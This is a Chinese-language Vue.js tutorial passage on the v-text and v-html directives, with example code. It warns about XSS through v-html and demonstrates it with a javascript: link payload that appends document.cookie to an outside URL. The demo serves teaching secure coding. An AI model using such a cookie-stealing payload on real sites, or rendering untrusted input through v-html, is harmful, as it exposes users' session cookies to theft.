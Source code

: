 ## 捌 内置指令

### 8.1 v-text 向其所在节点中渲染文本内容

* 会替换掉节点中的内容
* 不如插值语法`{{}}`灵活
* 不会解析标签 *和插值语法一样*

```html
<body>
  <div id="root">
    <div>{{name}}</div>
    <div v-text="name"></div>
    <div>{{html}}</div>
    <div v-text="html"></div>
  </div>
  <script>
    new Vue({
      el: "#root",
      data() {
        return {
          name: "张三",
          html: "<h3>你好啊</h3>"
        };
      },
    })
  </script>
</body>
```

### 8.2 v-html 向其所在节点中渲染包含html结构的内容

* 和`v-text`的使用类似
* 向指定节点中渲染**包含html结构**的内容
* 会替换掉节点中原有的内容

**注意-安全性问题**

* 使用诸如`v-html`这种使得用户可以在页面动态生成, 修改任意标签会导致**XXS攻击**, 具体如下
* 恶意用户可以生成含有带有如`document.cookie`的`<a>`标签, 获取受害用户的信息, 当受害用户被诱导点击后, 其`cookie`信息被发送至恶意服务器, 账号信息泄露
* `cookie` 存储自身信息的一些数据

```html
<!-- 模拟 xxs 攻击 -->
<body>
  <div id="root">
    <div>{{name}}</div>
    <div v-text="name"></div>
    <div>{{html}}</div>
    <div v-html="html"></div>
  </div>
  <script>
    new Vue({
      el: "#root",
      data() {
        return {
          name: "张三",
          html: "<a href=javascript:location.href='http://www.baidu.com?'+document.cookie>百度</a>"
        };
      },
    })
  </script>
</body>
```
